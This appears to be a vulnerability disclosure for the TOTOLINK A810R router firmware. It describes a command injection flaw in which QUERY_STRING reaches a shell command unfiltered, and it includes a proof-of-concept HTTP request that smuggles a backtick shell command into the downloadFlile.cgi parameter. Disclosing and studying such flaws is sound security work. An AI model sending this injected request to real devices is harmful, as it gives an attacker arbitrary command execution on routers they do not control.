 # TOTOLink A810R V4.1.2cu.5182_B20201026 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: TOTOLINK (https://www.totolink.net/)
- **Products**: WiFi Router, such as A810R V4.1.2cu.5182_B20201026 V5.9c.4050_B20190424
- **Firmware download address:** https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/169/ids/36.html



## Description

### 1.Product Information:

TOTOLink A810R V4.1.2cu.5182_B20201026  router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](images/image-20220213004236488.png)

(The latest version on the official website)

### 2. Vulnerability details

![image-20220213004602767](images/image-20220213004602767.png)

TOTOLINK A810R V4.1.2cu.5182_B20201026  was discovered to contain a command injection vulnerability in the "Main" function. This vulnerability allows attackers to execute arbitrary commands via the QUERY_STRING parameter.

![Figure 2 Local of the vulnerability](images/image-20220212024252932.png)

We can see that the os will get ` QUERY_STRING`  without filter splice to the string `echo QUERY_STRING:%s >/tmp/download` and execute it. So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /cgi-bin/downloadFlile.cgi?payload=`ls>../1.txt` HTTP/1.1 
Host: 192.168.111.12 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```

![Figure 3 POC attack effect](images/22.png)

![Figure 4 POC attack effect](images/33.png)